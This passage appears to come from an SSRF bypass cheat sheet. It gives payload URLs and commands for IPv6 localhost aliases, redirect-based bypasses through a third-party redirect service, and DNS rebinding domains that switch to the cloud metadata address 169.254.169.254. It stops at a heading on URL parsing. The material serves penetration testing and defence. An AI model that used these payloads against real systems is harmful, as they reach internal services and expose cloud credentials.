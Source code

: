 * in Linux /etc/hosts contain this line `::1   localhost ip6-localhost ip6-loopback` but work only if http server running in ipv6

   ```powershell
   http://ip6-localhost = ::1
   http://ip6-loopback = ::1
   ```

### Bypassing Using a Redirect

1. Create a page on a whitelisted host that redirects requests to the SSRF the target URL (e.g. 192.168.0.1)
2. Launch the SSRF pointing to `vulnerable.com/index.php?url=http://redirect-server`
3. You can use response codes [HTTP 307](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/307) and [HTTP 308](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/308) in order to retain HTTP method and body after the redirection.

To perform redirects without hosting own redirect server or perform seemless redirect target fuzzing, use [Horlad/r3dir](https://github.com/Horlad/r3dir).

* Redirects to `http://localhost` with `307 Temporary Redirect` status code

    ```powershell
    https://307.r3dir.me/--to/?url=http://localhost
    ```

* Redirects to `http://169.254.169.254/latest/meta-data/` with `302 Found` status code

    ```powershell
    https://62epax5fhvj3zzmzigyoe5ipkbn7fysllvges3a.302.r3dir.me
    ```

### Bypass Using DNS Rebinding

Create a domain that change between two IPs.

* [1u.ms](http://1u.ms) - DNS rebinding utility

For example to rotate between `1.2.3.4` and `169.254-169.254`, use the following domain:

```powershell
make-1.2.3.4-rebind-169.254-169.254-rr.1u.ms
```

Verify the address with `nslookup`.

```ps1
$ nslookup make-1.2.3.4-rebind-169.254-169.254-rr.1u.ms
Name:   make-1.2.3.4-rebind-169.254-169.254-rr.1u.ms
Address: 1.2.3.4

$ nslookup make-1.2.3.4-rebind-169.254-169.254-rr.1u.ms
Name:   make-1.2.3.4-rebind-169.254-169.254-rr.1u.ms
Address: 169.254.169.254
```

### Bypass Abusing URL Parsing Discrepancy
